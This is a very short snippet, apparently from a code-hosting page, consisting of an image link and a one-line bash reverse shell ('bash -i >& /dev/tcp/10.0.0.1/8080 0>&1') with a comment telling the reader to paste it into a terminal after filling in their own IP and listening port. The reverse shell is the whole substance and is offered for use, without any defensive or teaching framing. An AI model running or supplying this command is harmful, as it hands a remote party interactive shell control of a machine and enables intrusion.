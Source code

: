 # Just paste it to your terminal and put your ip and listning port
``bash -i >& /dev/tcp/10.0.0.1/8080 0>&1``
....
